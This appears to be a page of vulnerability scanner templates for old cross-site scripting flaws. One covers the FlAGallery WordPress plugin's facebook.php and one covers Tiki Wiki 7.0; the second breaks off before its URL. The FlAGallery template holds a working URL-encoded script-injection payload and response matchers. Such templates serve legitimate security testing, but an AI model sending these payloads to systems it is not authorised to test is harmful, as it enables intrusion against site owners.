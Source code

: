 ## Description

- A cross-site scripting (XSS) vulnerability in facebook.php in the GRAND FlAGallery plugin (flash-album-gallery) before 1.57 for WordPress allows remote attackers to inject arbitrary web script or HTML via the i parameter.
- severity - medium
- tags - cve,cve2011,wordpress,xss,wp-plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/flash-album-gallery/facebook.php?i=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Tiki Wiki CMS Groupware 7.0 Cross-Site Scripting

## Description

- Tiki Wiki CMS Groupware 7.0 is vulnerable to cross-site scripting via the GET "ajax" parameter to snarf_ajax.php.
- severity - medium
- tags - seclists,cve,cve2011,xss,tikiwiki

## Requests

- Method - GET

### URL
